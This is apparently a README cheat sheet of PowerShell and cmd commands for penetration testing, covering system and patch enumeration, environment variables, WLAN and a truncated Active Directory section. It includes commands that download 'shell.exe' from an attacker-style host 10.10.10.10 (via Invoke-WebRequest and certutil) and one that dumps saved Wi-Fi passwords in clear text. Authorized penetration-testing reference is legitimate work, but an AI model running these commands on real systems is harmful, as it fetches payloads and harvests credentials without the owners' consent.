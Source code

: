 # # Useful PowerShell Commands for  Penetration Testing

> ## **System Enumeration**

```
systeminfo

Get-WmiObject Win32_ComputerSystem

echo "$env:COMPUTERNAME.$env:USERDNSDOMAIN"
```
- ### **List Security Patches**

```
Get-Hotfix -description "Security update"

wmic qfe get HotfixID,ServicePackInEffect,InstallDate,InstalledBy,InstalledOn
```

- ### **Enviornmental Variables**

```
Get-ChildItem Env: | ft Key,Value
```
(Over cmd.exe)
```
set
```

---

> ## **HTTP download (wget like)**

```
Invoke-WebRequest "http://10.10.10.10/shell.exe" -OutFile "shell.exe" 
```

Cmd compatible

```
certutil -urlcache -f http://10.10.10.10/shell.exe shell.exe
```

---

> ## **WLAN enumeration**

```
netsh wlan show profiles

netsh wlan show profile name="PROFILE-NAME" key=clear
```

---

> ## **Active Directory enumeration**

- ### **Require Powerview.ps1**
